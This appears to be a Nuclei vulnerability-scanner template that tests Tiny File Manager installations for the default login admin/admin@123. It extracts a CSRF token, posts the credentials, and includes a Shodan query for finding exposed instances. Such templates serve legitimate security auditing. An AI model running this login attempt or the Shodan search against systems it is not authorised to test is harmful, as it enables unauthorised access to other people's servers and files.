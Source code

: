 ```yaml
  metadata:
    verified: true
    max-request: 3
    shodan-query: html:"Tiny File Manager"
  tags: default-login,tiny,filemanager

http:
  - raw:
      - |
        GET / HTTP/1.1
        Host: {{Hostname}}
      - |
        POST / HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded

        fm_usr={{user}}&fm_pwd={{pass}}&token={{token}}
      - |
        GET /?p= HTTP/1.1
        Host: {{Hostname}}

    attack: pitchfork
    payloads:
      user:
        - admin
      pass:
        - admin@123
    skip-variables-check: true
    host-redirects: true
    max-redirects: 2

    matchers-condition: and
    matchers:
      - type: word
        words:
          - 'admin'
          - 'You are logged in'
          - 'Tiny File Manager'
        condition: and

      - type: status
        status:
          - 200

    extractors:
      - type: regex
        name: token
        part: body
        regex:
          - '([a-f0-9]{64})'
        internal: true
```
